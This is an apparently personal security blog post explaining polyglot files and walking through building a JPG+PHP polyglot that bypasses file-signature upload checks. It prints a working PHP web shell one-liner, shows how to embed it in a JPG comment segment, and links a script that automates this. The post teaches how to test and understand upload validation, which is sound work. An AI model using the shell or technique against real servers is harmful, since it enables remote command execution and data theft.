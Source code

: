 ```yaml
---
layout: post
date:   2023-10-02 16:39:14 +0100
---
```


Polyglot files captivated me while learning cybersecurity. Their clever ability to trick a server and the potential for high-severity attacks made me want to know more about them. Even though one might use various tools for creating them, I was curious how it is done at the byte level.

## Outline

- What are polyglot files
- Why are they important
- How do servers validate the file uploads
- Example: Creating a JPG+PHP file
- Proof of concept

## What are polyglot files?

In computing, polyglots are scripts written in such a way that they are valid in multiple programming languages or file formats. A polyglot file therefore combines one or more formats that can be executed individually without interfering with one another. Some examples are GIF+JS (gifjs) and PNG+Java ARchive (JAR).

Most combinations of different formats can be polyglots, but here’s a list with examples of the most used files.

## Why are they important?

In the security context, attackers can use polyglot files to bypass file upload validation and trigger remote code execution. This can lead to either creating a web shell and/or exfiltrating sensitive data. Deploying a web shell is a critical severity attack. By doing this, an attacker can execute shell commands on the server enabling them to extract sensitive information and gain higher privileges.

## How do servers validate the file uploads?

To better understand how these files can bypass the validation, here are some aspects servers validate on file upload:

1. *The file extension*

    A naive approach is when a server checks the file extension alone. If uploading a file ending with `.png`, the file is accepted as PNG. But depending on how the filename is parsed, `avatar.php.png` or even `avatar.php;.png` can be either a PHP or PNG file.

2. *The submitted MIME-type*

    When uploading an image, the Content-Type request header indicates the file type being uploaded. For example, `Content-Type: image/svg+xml` when uploading an SVG image. This request will be rejected if the server only accepts `image/png`. Implicitly trusting this header is not a robust defense, as an attacker can modify the value of Content-Type.

3. *The file signature*

    Instead of trusting the Content-Type header, some servers will delve into the file’s contents and look for specific markers. Each file type has different signatures. For instance, a JPG will always start with `0xFF 0xD8 0xFF` bytes and end with `0xFF 0xD9`. **Polyglot files are used to bypass this validation**. In cases like these, a file might look like a harmless JPG but still contain malicious code that can be executed by the server.

## Example: Creating a JPG+PHP file

Plenty of web apps allow users to upload profile pictures and JPG format is common for such pictures. To inject PHP code into the file, I needed to make sure the file still respects a JPG structure.

For this example, I already had a valid JPG file starting with this structure:

![Polyglot-JPG-initial-bytes]({{ site.baseurl }}/assets/images/posts/jpg-head.png)

Here are some [details on what these markers mean](https://github.com/corkami/formats/blob/master/image/jpeg.md#diagrams){:target="_blank"} (Also, a great resource for mapping different format signatures).

Following, I injected this PHP code, which allows remote code execution on the web (notice the `cmd` bit):

```php
<?php echo "<br/><br/>"; echo system($_GET["cmd"]); exit() ?>
```

Next, I’m appending this code as hex. I used the comment JPG markers, starting with the `0xFF 0xFE` bytes, followed by two more bytes specifying the comment’s length + 2 in hex (`0x00 0x3F` - 63 in decimal). Here’s the whole buffer at this point:

![Polyglot-JPG-with-injected-php-code]({{ site.baseurl }}/assets/images/posts/jpg-injected.png)

Finally, I appended the rest of the JPG bytes from the original image and saved the buffer in a new file. I already obtained the polyglot file which can be saved as either `.jpg` or `.php`.

If uploading this avatar.php to a PHP server, an attacker might be able to trigger remote code execution by using the URL query parameter - `vulnerable-app.com/avatars/avatar.php?cmd=<COMMAND>`. A successful attacker has now access to the system commands.

In case the avatar.php “image” gets rejected, an attacker can still use the polyglot avatar.jpg. As soon as the server runs this file through the PHP interpreter, it will trigger the exploit. If this doesn't happen by default, the attacker might find other ways to exploit, like a [Local File Inclusion](https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html){:target="_blank"} (LFI).

## Proof of concept

I created a script (`phppoly.rb`) that does what I described above. It integrates a string into a JPG file and returns two files in avatar.php & avatar.jpg.

[https://github.com/panacotar/phppoly](https://github.com/panacotar/phppoly){:target="_blank"}

As a proof of concept, I built a basic PHP server that reads the two polyglot files and returns their file types which should be JPG in both cases. This server can run locally and once it has the avatar.php file, you can navigate to that path and query the cmd to trigger any system command ex: `http://127.0.0.1:8000/avatar.php?cmd=ls .`.

The results of that command will be returned with the HTTP response, and now you have deployed a web shell on that server.

![Polyglot-exploit]({{ site.baseurl }}/assets/images/posts/polyglot-exploit.png)
